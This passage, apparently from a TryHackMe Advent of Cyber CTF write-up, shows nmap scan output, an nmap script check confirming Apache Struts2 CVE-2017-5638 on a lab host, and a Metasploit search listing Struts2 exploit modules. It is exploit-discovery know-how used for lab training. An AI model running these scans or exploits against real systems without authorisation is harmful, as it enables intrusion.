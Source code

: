 ```
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   29.52 ms 10.8.0.1
2   29.82 ms 10.10.191.224

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.41 seconds
```

* [Exploiting Apache Struts2 CVE-2017–5638](https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede)
* [](https://www.exploit-db.com/exploits/41570)

`nmap -p 80 --script http-vuln-cve2017-5638 --script-args path=/showcase.action 10.10.191.224`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -p 80 --script http-vuln-cve2017-5638 --script-args path=/showcase.action 10.10.191.224
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:24 CEST
Nmap scan report for 10.10.191.224
Host is up (0.030s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-vuln-cve2017-5638: 
|   VULNERABLE:
|   Apache Struts Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-5638
|       Apache Struts 2.3.5 - Struts 2.3.31 and Apache Struts 2.5 - Struts 2.5.10 are vulnerable to a Remote Code Execution
|       vulnerability via the Content-Type header.
|           
|     Disclosure date: 2017-03-07
|     References:
|       https://cwiki.apache.org/confluence/display/WW/S2-045
|       http://blog.talosintelligence.com/2017/03/apache-0-day-exploited.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638

Nmap done: 1 IP address (1 host up) scanned in 1.43 seconds
```

```
msf5 > search Struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   1  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
```